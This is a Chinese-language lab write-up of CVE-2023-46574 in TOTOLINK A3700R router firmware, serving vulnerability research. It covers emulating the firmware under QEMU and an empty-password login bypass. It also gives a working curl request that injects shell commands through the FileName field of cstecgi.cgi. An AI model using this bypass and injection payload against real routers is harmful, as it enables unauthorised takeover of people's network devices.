


TOTOLINK 命令执行 CVE-2023-46574

- - -

# TOTOLINK 命令执行 CVE-2023-46574

## 搭建 qemu mipsel 环境

```plain
sudo apt-get install schroot debootstrap
ubuntu20
debootstrap --arch=mipsel bookworm /iotconfig/debootstrap/mipsel https://mirrors.aliyun.com/debian
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216220854-ead62014-ccd4-1.png)  
然后配置 schroot

```plain
sudo vim /etc/schroot/chroot.d/mipsel.conf
```

```plain
[mipsel]
type=directory
directory=/iotconfig/debootstrap/mipsel/
users=root
groups=root
root-groups=root
```

然后就可以看到已经配置上了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216220930-00c22a1c-ccd5-1.png)  
之后直接 schroot 进入

```plain
sudo schroot -c chroot:mipsel -u root
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216220941-073e4cd6-ccd5-1.png)

## 漏洞分析

在 cstecgi.cgi 程序中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221000-1257c476-ccd5-1.png)  
FileName 没有检查放入 doSystem，所以这里有命令执行漏洞

## 固件模拟

```plain
sudo binwalk --run-as=root -Me TOTOLINK_A3700R_V9.1.2u.6165_20211012.web
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221019-1d838e70-ccd5-1.png)  
查看目录，里面有个 lighttpd 文件夹，所以这里用的是 lighttpd 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221149-53403cd4-ccd5-1.png)  
在 lighttpd 目录下找到了配置文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221157-584f8586-ccd5-1.png)  
这里 lighttpd 是通过 lighttpd -f \[配置文件\]来启动的

```plain
sudo cp -r squashfs-root /iotconfig/debootstrap/mipsel/root/
```

然后将 squashfs-root 复制到安装的 mipsel 系统上

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221216-63a5712a-ccd5-1.png)  
进入 mipsel 系统，然后再 chroot 进入 squashfs-root 目录下

```plain
sudo schroot -c chroot:mipsel -u root
chroot squashfs-root/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221231-6c7fda24-ccd5-1.png)  
然后直接启动服务即可

```plain
lighttpd -f lighttp/lighttpd.conf
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221239-71762c72-ccd5-1.png)

```plain
这里如果没启动成功，只需要在/var/run 目录下创建一个 lighttpd.pid 文件即可
mkdir /var/run
touch /var/run/lighttpd.pid
```

然后就能进入路由器登录界面了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221259-7d5e3160-ccd5-1.png)

## 绕过登录

因为没设置密码，所以直接抓包，空密码登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221311-847b51bc-ccd5-1.png)  
没直接进入，但是可以看到地址  
[http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login](http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221320-89925b78-ccd5-1.png)  
直接访问即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221327-8e0d3bd2-ccd5-1.png)

## 命令执行

拿到 session id

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221342-97089114-ccd5-1.png)

```plain
curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION_ID=2:1708017806:2" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216221402-a2eee3ca-ccd5-1.png)

TOTOLINK\_A3700R\_V9.1.2u.6165\_20211012.zip (8.658 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240216221624-f78081d2-ccd5-1.zip)
